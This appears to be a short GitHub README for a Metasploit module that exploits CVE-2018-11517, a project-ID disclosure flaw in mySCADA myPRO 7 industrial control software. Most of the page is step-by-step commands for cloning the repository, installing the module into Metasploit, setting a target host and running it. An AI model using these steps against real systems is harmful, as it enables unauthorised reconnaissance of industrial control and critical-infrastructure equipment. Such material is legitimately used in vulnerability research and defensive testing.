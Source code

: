 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.

## CVE-2018-11517

```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRESS]

run
```

![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
-
